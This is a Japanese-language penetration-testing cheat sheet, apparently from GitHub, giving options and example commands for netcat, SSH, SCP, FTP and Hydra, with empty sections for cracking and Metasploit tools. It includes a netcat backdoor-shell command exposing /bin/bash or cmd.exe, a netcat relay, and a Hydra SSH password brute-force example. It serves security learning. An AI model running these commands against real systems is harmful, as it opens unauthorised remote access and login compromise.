 # high-frequency-tips
頻繁に使うコマンドのCheatSheet

## Netcat
オプション：
```
-l：リッスン
-n：名前解決を行わない
-k：コネクション確立後も接続をリッスンする
-v：接続状態などの出力を行う
-vv：接続状態などのより詳細な出力を行う
```
実行例(ポート1234でリッスン)：
```console
$ncat -nlv 1234
```
実行例(Backdoor Shell)
```console
$nc -l -p [port] -e /bin/bash
```
OR
```console
C:\>nc [port] -e cmd.exe
```
実行例(Ntcat Relays(Listener-to-Listner))
```console
$cd /tmp
$mknod backpipe p
$nc -l -p [port] 0<backpipe | nc -l -p [port] | tee backpipe
```
## SSH
オプション：
```
-p：ポート指定
-v：デバッグの出力
-vv：デバッグのより詳細な出力
-vvv："-vv"より更に詳細な出力
```
実行例(ーゲットのユーザに対してSSHで接続)
```console
$ssh user@[target(ip/hostname)]
```
### SCP(SSH File Transfer)
オプション：
```
-P：ポート指定
-v：デバッグの出力
-p：ファイルに付与されたタイムスタンプなどの情報を保持する
-r：再帰的(ディレクトリごと等)
*.txt：ワイルドカード
/home/user/{file1,file2,file3}：ファイルの複数選択 
```
実行例(モートホストからローカルにコピーする)：
```console
$scp user@[target(ip/hostname)]:[remote_filepath] [local_filepath]
```
実行例(ローカルからリモートホストにコピーする)
```console
$scp [local_filepath] user@[target(ip/hostname)]:[remote_filepath]
```
## FTP
オプション：
```
-s:filename ：接続時にスクリプトを実行する
```
実行例(ターゲットに接続)：
```console
$ftp [target(ip/hostname)]
```
実行例(アップロード(FTP))：
```console
ftp>put [local_filepath]
```
実行例(ダウンロード(FTP))：
```console
ftp>get [remote_filepath]
```
## Hydra
オプション：
```
[service]：ssh, rdp, ftp, 
-C [file]：<login:pass>形式のUSERPASSリストを指定
-P [file]：PASSリストを指定
-U [file]：USERリストを指定
-s PORT：サービスが起動しているポート
-t：同時実行タスク数()
-v：詳細な出力
services: サービスの指定/対応サービス(asterisk afp cisco cisco-enable cvs firebird ftp ftps http[s]-{head|get} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql ncp nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres rdp rexec rlogin rsh s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp)
```
実行例(sshパスクラ)：
```console
$hydra -C [USERPASS_FILE] [target(ip/hostname)] ssh
```
## John the Ripper
## HashCat
## Metasploit Framework
 ### Meterpreter
 ### msfvenom
 ### Pivot
## Network
 ### Routing
 ### ICMP
 ### ARP
## Google Dork
## Linux General Command
## Windows General Command
